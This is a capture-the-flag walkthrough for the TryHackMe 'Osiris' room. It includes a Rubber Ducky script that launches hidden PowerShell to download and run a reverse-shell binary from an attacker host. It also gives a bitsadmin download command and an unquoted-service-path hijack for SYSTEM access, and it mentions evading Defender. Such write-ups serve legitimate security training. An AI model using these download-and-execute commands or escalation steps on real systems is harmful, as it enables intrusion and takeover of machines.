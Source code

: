 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`. This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.
